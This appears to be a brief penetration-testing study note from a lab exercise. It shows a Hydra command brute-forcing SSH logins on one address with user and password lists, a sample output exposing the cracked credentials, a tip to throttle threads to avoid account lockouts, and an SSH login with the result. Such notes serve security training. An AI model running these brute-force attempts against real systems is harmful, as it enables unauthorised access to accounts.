 
## Hydra (Brute Force)

Command:

```
hydra -L user.list -P password.list ssh://10.129.42.197
```

Success output:

```
[22][ssh] host: 10.129.42.197   login: user   password: password
```

Tip: limit threads to avoid lockouts

```
-t 4
```

---

## Login (OpenSSH)

Use SSH client (default on most Linux systems):

```
ssh user@10.129.42.197
```
